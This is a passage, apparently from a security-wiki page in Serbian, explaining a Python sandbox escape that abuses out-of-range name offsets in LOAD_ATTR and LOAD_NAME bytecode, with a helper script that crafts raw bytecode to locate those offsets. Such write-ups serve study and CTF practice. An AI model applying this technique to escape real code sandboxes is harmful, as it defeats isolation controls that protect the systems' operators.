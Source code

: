 Primetite da `LOAD_ATTR` takođe dobavlja ime iz `co_names`. Python učitava imena sa istog offseta ako je ime isto, tako da se drugi `__getattribute__` i dalje učitava sa offsetom 5. Koristeći ovu mogućnost, možemo koristiti proizvoljno ime jednom kada je ime u memoriji u blizini.

Generisanje brojeva trebalo bi biti jednostavno:

* 0: not \[\[]]
* 1: not \[]
* 2: (not \[]) + (not \[])
* ...

### Skripta za iskorišćavanje <a href="#exploit-script-1" id="exploit-script-1"></a>

Nisam koristio konstante zbog ograničenja dužine.

Prvo, evo skripte koju koristimo da pronađemo te offsete imena.

```python
from types import CodeType
from opcode import opmap
from sys import argv


class MockBuiltins(dict):
def __getitem__(self, k):
if type(k) == str:
return k


if __name__ == '__main__':
n = int(argv[1])

code = [
*([opmap['EXTENDED_ARG'], n // 256]
if n // 256 != 0 else []),
opmap['LOAD_NAME'], n % 256,
opmap['RETURN_VALUE'], 0
]

c = CodeType(
0, 0, 0, 0, 0, 0,
bytes(code),
(), (), (), '<sandbox>', '<eval>', 0, b'', ()
)

ret = eval(c, {'__builtins__': MockBuiltins()})
if ret:
print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```
